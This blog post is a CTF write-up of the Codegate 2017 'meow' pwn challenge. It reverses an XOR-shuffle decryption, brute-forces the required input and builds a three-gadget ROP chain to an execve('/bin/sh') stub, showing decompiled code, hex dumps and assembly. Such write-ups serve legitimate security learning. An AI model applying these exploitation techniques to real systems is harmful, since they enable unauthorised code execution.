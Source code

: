 ```yaml
---
title: 'Codegate prequals 2017: meow (pwn 365)'
tags:
  - Codegate prequals
  - pwn
  - reverse
categories:
  - writeup
date: 2017-02-20 23:35:57
---
```



## Description
> Meow~Meow~
> {% asset_link meow http://ctf.codegate.org/z/meow %}
> nc 110.10.212.139 50410

## TL;DR
- Observe how user's input is used to "decrypt" the hard coded data
- Guess that the "decrypted" data should start with `push rbp; mov rbp, rsp;` and end with `leave; ret;`
- Brute force md5 with the constraints found above
- Use the ROP gadgets that author deliberately provide to launch a shell

## Exploit

{% codeblock lang:c %}
*(_QWORD *)s2 = 0x618F652224A9469FLL;
*(_QWORD *)&s2[8] = 1493362804178947496LL;
MD5_Init(&v2);
MD5_Update(&v2, input, 10LL);
MD5_Final(&s1, &v2);
return strncmp(&s1, s2, 0x10uLL) != 0;
{% endcodeblock %}

At the very beginning of the binary, it asks us to input a 10 bytes string of which md5 is equal to `9f46a92422658f61a80ddee78e7db914`... I tried searching this md5 on some online database but got no answer. Since it is also impossible to brute force an 80 bits input, I was totally stuck at this stage.

{% asset_img no_way.gif %}

When I was going to give up, one of my teammates reminded me that the input is also being used in the latter part of the program. Maybe we could find other constraints to reduce the search space of the input. It turned out to be the right direction, so let's see what the remaining program does.

{% codeblock lang:c %}
sub_D1D((__int64)&v12, (__int64)&input, v15);
sub_D1D((__int64)&v5, (__int64)&input, v14);
sub_1467((void **)&qword_2020B8, v17, v15, &v12);
sub_1467((void **)&unk_2020C0, v16, v14, &v5);
sub_C45();
{% endcodeblock %}

Roughly speaking, there are two segments of data. They are both operated with some sort of "decryption" in `sub_D1D` with our input as the key and then copied to a mmaped memory with the execute permission in `sub_1467`. Finally, in `sub_C45`, we can choose option 3 to jump to the first segment of the decrypted data and execute them as instructions.

Now, we know that at least the first segment of data should be decrypted to legal x86 instructions. Let's see what `sub_D1D` actually does.

{% codeblock sub_D1D lang:c %}
  v14 = 0;
  j = 0;
  v19 = 4;
  v18 = 5;
  v17 = 3;
  v13 = 10;
  v12 = 5;
  v11 = 7;
  v16 = 0;
  v15 = a3;
  v9 = 0LL;
  v10 = 0;
  v7 = 0;
  v8 = 0;
  v4 = 0;
  v5 = 0;
  v6 = 0;
  for ( i = 0; a3 - a3 % v11 > i; i += v11 )
  {
    for ( j = 0; j < v17; ++j )
      *((_BYTE *)&v4 + j) = *(_BYTE *)(j + v16 + initial_content);
    for ( j = 0; v11 - v17 > j; ++j )
      *((_BYTE *)&v4 + j + v17) = *(_BYTE *)(v17 + v15 - v11 + j + initial_content);
    for ( j = 0; j < v11; ++j )
      *((_BYTE *)&v4 + j) ^= *(_BYTE *)(j + user_input);  // user input
    for ( j = 0; j < v17; ++j )
      *(_BYTE *)(initial_content + j + v16) = *((_BYTE *)&v4 + j + v11 - v17);
    for ( j = 0; v11 - v17 > j; ++j )
      *(_BYTE *)(initial_content + v17 + v15 - v11 + j) = *((_BYTE *)&v4 + j);
    v16 += v17;
    v15 -= v11 - v17;
    v17 += 2;
    if ( v17 == 9 )
      v17 = 3;
  }
  v16 = 0;
  v15 = a3;
  for ( i = 0; a3 - a3 % v12 > i; i += v12 )
  {
    for ( j = 0; j < v18; ++j )
      *((_BYTE *)&v7 + j) = *(_BYTE *)(j + v16 + initial_content);
    for ( j = 0; v12 - v18 > j; ++j )
      *((_BYTE *)&v7 + j + v18) = *(_BYTE *)(v18 + v15 - v12 + j + initial_content);
    for ( j = 0; j < v12; ++j )
      *((_BYTE *)&v7 + j) ^= *(_BYTE *)(2 * j + 1LL + user_input);  // user input
    for ( j = 0; j < v18; ++j )
      *(_BYTE *)(initial_content + j + v16) = *((_BYTE *)&v7 + j + v12 - v18);
    for ( j = 0; v12 - v18 > j; ++j )
      *(_BYTE *)(initial_content + v18 + v15 - v12 + j) = *((_BYTE *)&v7 + j);
    v16 += v18;
    v15 -= v12 - v18--;
    if ( !v18 )
      v18 = 5;
  }
  v16 = 0;
  v15 = a3;
  for ( i = 0; a3 - a3 % v13 > i; i += v13 )
  {
    for ( j = 0; j < v19; ++j )
      *((_BYTE *)&v9 + j) = *(_BYTE *)(j + v16 + initial_content);
    for ( j = 0; v13 - v19 > j; ++j )
      *((_BYTE *)&v9 + j + v19) = *(_BYTE *)(v19 + v15 - v13 + j + initial_content);
    for ( j = 0; j < v13; ++j )
      *((_BYTE *)&v9 + j) ^= *(_BYTE *)(j + user_input);  // user input
    for ( j = 0; j < v19; ++j )
      *(_BYTE *)(initial_content + j + v16) = *((_BYTE *)&v9 + j + v13 - v19);
    for ( j = 0; v13 - v19 > j; ++j )
      *(_BYTE *)(initial_content + v19 + v15 - v13 + j) = *((_BYTE *)&v9 + j);
    v16 += v19;
    v15 -= v13 - v19++;
    if ( v19 == 9 )
      v19 = 4;
  }
  v16 = 0;
  v15 = a3;
  v19 = 4;
  for ( i = 0; a3 - a3 % v13 > i; i += v13 )
  {
    for ( j = 0; j < v19; ++j )
      *((_BYTE *)&v9 + j) = *(_BYTE *)(j + v16 + initial_content);
    for ( j = 0; v13 - v19 > j; ++j )
      *((_BYTE *)&v9 + j + v19) = *(_BYTE *)(v19 + v15 - v13 + j + initial_content);
    for ( j = 0; j < v13; ++j )
      *((_BYTE *)&v9 + j) ^= *(_BYTE *)(j + user_input);  // user input
    for ( j = 0; j < v19; ++j )
      *(_BYTE *)(initial_content + j + v16) = *((_BYTE *)&v9 + j + v13 - v19);
    for ( j = 0; v13 - v19 > j; ++j )
      *(_BYTE *)(initial_content + v19 + v15 - v13 + j) = *((_BYTE *)&v9 + j);
    v16 += v19;
    v15 -= v13 - v19++;
    if ( v19 == 9 )
      v19 = 4;
  }
{% endcodeblock %}

The decompiled code is quite complicated, but we can see that the user's input is only involved in some xor operations. Maybe we can find out what this code snippet does by observing the input and the output of it. To do this, I first patched the md5 checking and input `'\x00'*10` to see what is the effect without user's input through `gdb`.

{% codeblock lang:plain line_number:false %}
input:
f1 64 72 4a 4f 48 4d ba 77 73 1d 34 f5 af b8 0f
24 56 11 65 47 a3 2f 73 a4 56 4f 70 4a 13 57 9c
3f 6f 06 61 40 90 af 39 10 29 34 c3 00 7a 40 3d
4e 3f 0e 2a 2f 20 7f 73 89 7d 4b 1d 09 aa d0 00
21 89 4d 2a 67 7c 18 3b 39 f2 8d 1c a7 71 57 2e
31 14 67 48 3c 7d af 70 ae 10 31 68 d1 26 05 c8
25 f2 62 f5 5d 38 34 f2 20 0e 7e 9f fb 57 72 26
57 67 15 10 15 13 b9 3e 79 89 5d 24 12 01 98 7b
18 25 e0 df 7c 24 1b 2d 44 b0 10 3d 57 3d 62 b4
21 1d 3e d1 10 d7 45 74 96 2b 6d 3b ed 10 00 67
31 df 6c b8 86 1a 7c 6b 64 78 c6 37 76 e6 61 a0
ad be 4c ba a7 0d

output:
0d 48 f5 af 4d ad be 77 4c a4 56 34 64 72 4f 37
31 6f 70 e6 61 a0 11 9c 3f 06 13 3d 73 65 78 61
34 c3 40 86 1a af 40 7f 73 29 3f 7a 6d 67 68 d1
7d df 6c b8 71 2e 1c 62 1d 31 20 10 10 89 39 f2
4d 96 2b 67 05 3c 7d 3b 44 26 7e d1 01 98 70 d7
45 74 79 25 24 7b 10 24 48 89 1d c8 34 f2 25 57
3d 62 7c 26 57 38 3e df 13 b0 10 b9 10 3d 72 1b
20 2d 67 15 15 f5 5d f2 b4 21 af 12 31 14 3e 9f
57 ae 18 67 8d 5d e0 fb 0e 7c 18 2a 3b ed 89 a7
0e 2a 00 4e aa 4b 57 2f 00 00 21 09 d0 39 10 90
6b 64 4f 7c 47 a3 c6 f1 76 4a 57 2f b8 0f 24 56
4a 73 1d ba ba a7
{% endcodeblock %}

If we observe the input and the output carefully, we would find that the code is only shuffling the input. Then, it is time to exam the effect of the user's input. Using the same procedure, we can easily find that every byte of user's input is xor with some fixed bytes of data, so I wrote a script to visualize this operation.

{% include_code lang:python find_pattern.py %}

The output would looks like (only portion):

{% asset_img pattern.png %}

Data affected by the nth byte of user's input are highlighted. Now, we know how the "decryption" works. If we also know what the decrypted code should be, we can derive the input inversely. Unfortunately, we have no clue about the decrypted code. However, it is reasonable to guess that the prologue and epilogue should be the standard `push rbp; mov rbp, rsp;` and `leave; ret;`. With only these bytes of information, we can establish several relations between bytes of user's input and shrink the search space of md5 to a small range. (By the way, these relations suggest that the MSB of the xor of any two bytes of user's input is `0`, so I boldly guess that the input is printable.)

I wrote a C code to brute force the correct user's input, which is `$W337k!++y`.

{% include_code lang:c bruteforce.c %}

After providing the correct input, the challenge is still not finished.

{% codeblock lang:plain line_number:false %}
***** hello? *****
>>> $W337k!++y
- What kind of pet would you like to have?
- Select the number of pet!
1. angelfish
2. bear
3. cat
4. dog
5. I don't want pets
# number = 3
Did you choose a cat?????
What type of cat would you prefer? '0'
>>>
{% endcodeblock %}

The decrypted code is:

{% codeblock lang:x86asm First part of decrypted code %}
push   rbp
mov    rbp,rsp
sub    rsp,0x60
movabs rax,0x20756f7920646944

mov    QWORD PTR [rbp-0x60],rax
movabs rax,0x612065736f6f6863

mov    QWORD PTR [rbp-0x58],rax
movabs rax,0x3f3f3f3f74616320

mov    QWORD PTR [rbp-0x50],rax
movabs rax,0x7420746168570a3f

mov    QWORD PTR [rbp-0x48],rax
movabs rax,0x6320666f20657079

mov    QWORD PTR [rbp-0x40],rax
movabs rax,0x646c756f77207461

mov    QWORD PTR [rbp-0x38],rax
movabs rax,0x65727020756f7920

mov    QWORD PTR [rbp-0x30],rax
movabs rax,0x273027203f726566

mov    QWORD PTR [rbp-0x28],rax
mov    DWORD PTR [rbp-0x20],0x3e3e3e0a
mov    BYTE PTR [rbp-0x1c],0x0
lea    rax,[rbp-0x60]
mov    edx,0x44
mov    rsi,rax
mov    edi,0x1
mov    eax,0x1
syscall
lea    rax,[rbp+0x8]
mov    edx,0x18
mov    rsi,rax
mov    edi,0x0
mov    eax,0x0
syscall
nop
leave
ret
{% endcodeblock %}

It reads `0x18` bytes to the return address just before returning, which means we have a three-gadget ROP. Since this is a PIE binary, and we don't have any information leak, and the ROP chain is extremely short, it seems that we can basically do nothing. Nevertheless, the author of the program has deliberately put the exact three gadgets that we need in the second part of the data. Because the second part of the data is located in a mmaped memory of which address is known, we can easily use them to launch the shell.

{% codeblock lang:x86asm Second part of decrypted code%}
push   rbp
mov    rbp, rsp
sub    rsp, 0x10
mov    qword ptr [rbp - 8], rdi
mov    rax, qword ptr [rbp - 8]
mov    edx, 0
mov    esi, 0
mov    rdi, rax
mov    eax, 0x3b
syscall
nop
leave
ret
.byte 0x00
.byte 0x00
.ascii '/bin/sh'
.byte 0x00
.byte 0x00
.byte 0x00
.byte 0x00
.byte 0x00
.byte 0x00
pop    rdi
ret
{% endcodeblock %}

The exploit script is as follows.

{% include_code lang:python meow_exp.py %}

> Flag: `flag{what a lovely kitty!}`
